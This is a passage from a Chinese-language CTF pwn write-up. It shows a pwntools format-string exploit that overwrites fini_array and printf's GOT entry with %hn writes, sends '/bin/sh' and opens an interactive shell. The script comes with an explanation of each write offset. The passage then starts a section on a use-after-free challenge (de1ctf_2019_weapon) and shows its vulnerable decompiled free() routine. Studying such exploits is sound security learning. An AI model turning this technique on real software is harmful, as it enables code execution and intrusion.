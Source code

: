 ```python
printf_got = 0x0804989C

payload = p32(fini_array+2) + p32(printf_got+2) 
payload += p32(printf_got) + p32(fini_array)
payload += "%"+str(0x0804-0x10)+"c" + "%4$hn"
payload += "%5$hn"
payload += "%"+str(0x83D0-0x0804)+"c" + "%6$hn"
payload += "%"+str(0x8534-0x83D0)+"c" + "%7$hn"


r.recv()
r.sendline(payload)
r.recv()
r.sendline("/bin/sh\x00")
r.interactive()

```

payload详解

```python
payload = p32(fini_array+2) + p32(printf_got+2) 
payload += p32(printf_got) + p32(fini_array)
payload += "%"+str(0x0804-0x10)+"c" + "%4$hn"
payload += "%5$hn"
payload += "%"+str(0x83D0-0x0804)+"c" + "%6$hn"
payload += "%"+str(0x8534-0x83D0)+"c" + "%7$hn"
```

我们输入过多会溢出，输出也是一个道理，所以%nc的n不能太大拆分2次写入，我们这里只有一次输入机会首先就是

fini_array改main在偏移为4的地方写入0x0804大小的字符做高位地址，

因为是小端传序，所以我们给的给入地址是倒着来

fini_array+2=0x0804 对应%4$hn

printf_got+2=0x0804 对应%5$hn

printf_got=0x83D0   对应%6$hn

fini_array-0x8534 对应%7$hn

另外还有道题类似的可以参考下：https://jue-xian.gitee.io/jue-xian/2021/06/28/printf%E8%BF%9B%E9%98%B6/

## 8月7日

## 1.de1ctf_2019_weapon(libc-2.23.so下的UAF漏洞的IO文件利用)

bug

```c
unsigned __int64 sub_CBB()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("input idx :");
  v1 = sub_AAE();
  free(*((void **)&unk_202060 + 2 * v1));
  puts("Done!");
  return __readfsqword(0x28u) ^ v2;
}
```
